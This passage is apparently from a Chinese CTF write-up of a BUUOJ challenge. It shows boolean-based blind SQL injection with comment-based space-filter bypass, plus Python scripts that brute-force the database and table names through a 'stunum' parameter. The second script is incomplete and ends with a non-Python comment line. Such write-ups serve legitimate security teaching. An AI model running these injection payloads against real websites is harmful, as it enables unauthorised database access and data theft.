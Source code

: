 把`&&`换成`and`,这里发现空格被过滤

```
1/**/and/**/1=1#
Hi admin, your score is: 100
1 and 1=1#
student number not exists.
```

爆数据库名:

```python
import requests
import string
chars = string.printable[:]  #返回所有可打印的字母，数字，符号的集合
base_url = "http://bb625ab1-7046-49f8-923e-d3312349b26f.node4.buuoj.cn:81/?stunum="
session = requests.session()
def get_database_name(length):
    database_name = ""
    i = 1
    while i < length+1:
        for c in chars:
            payload = "1/**/and/**/(substr(database(),{},1)='{}')#".format(i, c)
            url = base_url + payload
            print(url)
            res = session.get(url).text
            # print(res)
            if "Hi admin, your score is: 100" in res:
                database_name += c
                print(database_name)
                break
        i = i + 1
get_database_name(3)

# 库名: ctf
```

爆表名:

```python
def get_table_name():
    tables_name = ""
    for i in range(1,30):
        for c in chars:
            payload = "1/**/and/**/(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='ctf'),{},1)='{}')#".format(i, c)
            url = base_url + payload
            print(url)
            res = session.get(url).text
            # print(res)
            if "Hi admin, your score is: 100" in res:
                tables_name += c
                print(tables_name)
                break
// 表名:flag
```
